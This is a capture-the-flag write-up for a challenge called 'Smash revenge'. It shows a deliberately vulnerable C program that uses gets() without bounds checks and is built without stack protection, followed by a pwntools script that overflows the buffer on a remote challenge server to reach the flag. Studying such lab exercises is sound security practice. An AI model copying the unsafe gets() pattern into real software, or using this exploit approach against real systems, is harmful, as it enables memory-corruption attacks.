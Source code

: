 ## Smash revenge
![challenge](../images/Smash_rev.png)

### Source Code
```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

//gcc main.c -o main -fno-stack-protector -no-pie
int setup(){
    setvbuf(stderr, NULL, _IONBF, 0);
	setvbuf(stdout, NULL, _IONBF, 0);
	return setvbuf(stdin, NULL, _IONBF, 0);
}

int main(){
    setup();
    char buf[30];
    int target = 0;
    printf("go on :");
    gets(buf);
    if (target == 0xdeadbeef){
        system("cat flag.txt");
    }
    return 0;
} 
```

### Overview
From the code we can understand that the program has a variable called "buf" and assigns a buffer of 30 chars to it. Then there’s another variable called "target" and it’s value is 0. ```gets(buf)``` is dangerous function and should not be used. It operates on the char type buffer and does no checks against overflowing the size assigned to this buffer. As a result if the input exceeds the buffer it will overwrite the "target" variable.

### Sovler
```py
from pwn import *

elf = context.binary = ELF('main')
p = remote("20.216.40.184", 10005)

pay = b'A'*44
pay += p64(0xdeadbeef)

p.sendline(pay)
p.interactive()
p.close()
```
